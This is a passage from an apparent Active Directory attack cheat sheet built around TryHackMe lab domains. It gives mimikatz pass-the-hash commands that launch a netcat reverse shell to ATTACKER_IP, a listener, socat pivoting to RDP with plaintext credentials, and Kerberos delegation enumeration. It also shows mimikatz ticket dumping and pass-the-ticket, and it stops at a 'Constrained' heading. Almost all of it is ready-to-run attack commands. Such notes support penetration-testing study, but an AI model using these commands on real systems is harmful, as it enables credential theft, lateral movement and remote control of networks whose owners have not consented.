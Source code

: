 ```
// If we have the RC4 hash:
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
// If we have the AES128 hash:
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
// If we have the AES256 hash:
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb 65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
// To receive the reverse shell
nc -lvp 5556
```


### Pivoting

##### Socat

```
// You need to connect RDP to Target-machine on port 3389
// from the middle machine, listen to 13389 to access from Attacker-machine
socat TCP4-LISTEN:13389,fork TCP4:THMIIS.za.tryhackme.com:3389
// The fork option allows socat to fork a new process for each connection received, making it possible to handle multiple connections without closing.
// from Attacker-machine RDP the middle machine to access Target-machine
xfreerdp /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020
```


# Exploitation


### Kerberos Delegation

##### Unconstrained

First Enumerate for delegations [TrustedToAuthForDelegation]

```
python3 findDelegation.py GEMY.local/fcastle:'Password123!' -dc-ip 192.168.68.132
```

Dump tickets for DA or Administrator

```
privilege::debug
sekurlsa::tickets /export
```

PTT

```
kerberos::ptt ticket_name
// To check if the tickets were correctly injected
kerberos::list
```
##### Constrained
